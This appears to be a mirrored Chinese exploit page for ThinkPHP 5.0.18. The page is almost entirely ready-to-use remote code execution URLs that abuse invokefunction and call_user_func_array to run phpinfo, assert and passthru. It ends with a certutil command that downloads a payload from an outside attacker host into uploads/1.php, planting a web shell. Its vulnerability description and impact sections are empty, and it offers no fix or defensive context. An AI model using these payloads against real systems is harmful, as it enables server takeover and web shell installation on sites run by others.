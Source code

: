 # Thinkphp 5.0.18

> 原文：[http://book.iwonder.run/0day/Thinkphp/6.html](http://book.iwonder.run/0day/Thinkphp/6.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、windows

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1 
```

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo() 
```

### 2、使用 certutil

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php 
```

由于根目录没写权限，所以写到 uploads

